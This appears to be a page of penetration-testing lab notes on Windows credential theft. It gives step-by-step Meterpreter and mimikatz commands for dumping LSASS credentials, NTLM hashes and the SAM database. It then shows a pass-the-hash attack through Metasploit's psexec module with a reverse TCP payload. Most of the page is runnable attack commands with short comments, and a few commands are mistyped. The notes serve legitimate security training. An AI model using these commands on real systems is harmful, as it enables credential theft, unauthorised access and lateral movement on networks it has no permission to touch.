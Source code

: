 ```bash
# for initial access to the victim, we exploited the Badblue vuln.

meterpreter > sysinfo
meterpreter > getuid 
meterpreter > pgrep lsass # search fro the lsass process, we migrate to the process.
meterpreter > sysifo

# method 1
meterpreter > load kiwi # Load the Kiwi extension.
meterpreter > help # we can see the kiwi help menu.
meterpreter > creds_all # Retrieve all possible creds.
meterpreter > lsa_dump_sam #Dump all NTLM hashes
meterpreter > lsa_dump_secrets # Dump secrets like the Syskey which is the flag in this case.

# method 2
# transfering the mimikatz binaries from kali to the victim system.
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe #Upload the mimikatz binary onto the target system
shell
C:\> .\mimikatz.exe
C:\> pricilege::debug # when we get the '20' OK, we are good to go.
C:\> sekurlsa::logonpasswords # dumps logon passwords.
C:\> lsadump::sam #Dump the SAM database
```



## <mark style="color:red;">Pass-The-Hash With PSExec</mark>

**Pass-The-Hash**

* Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use the PsExec module to legitimately authenticate with the target system via SMB.
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

### **Practical Demonstration**

```bash
# for initial access, we used the Badblue exploit enterprise edition.

meterpreter > sysinfo
meterpreter > getuid
meterpreter > pgrep lsass
meterpreter > migrate <lsas PID>
meterpreter > getuid # we have NT AUTHORITY.

# Use the command hashdump and save all of the hashes in a file
meterpreter > hashdump # copy and save to a file.

# we can use the hash for the Administrator user, to authenticate using the 
#'psexec' module.
meterpreter > use exploit/windows/smb/psexec #Use the hash as SMBPass and it's correspondant username as SMBUser
meterpreter > set payload windows/x64/meterpreter/reverse_tcp # because victim is using a 64bit system.
meterpreter > set SMBUser Administrator
meterpreter > set SMBPass <hash> # without the colons (::).
meterpreter > exploit # we get another meterpreter session.
meterpreter > getuid # NT AUTHORITY.
```
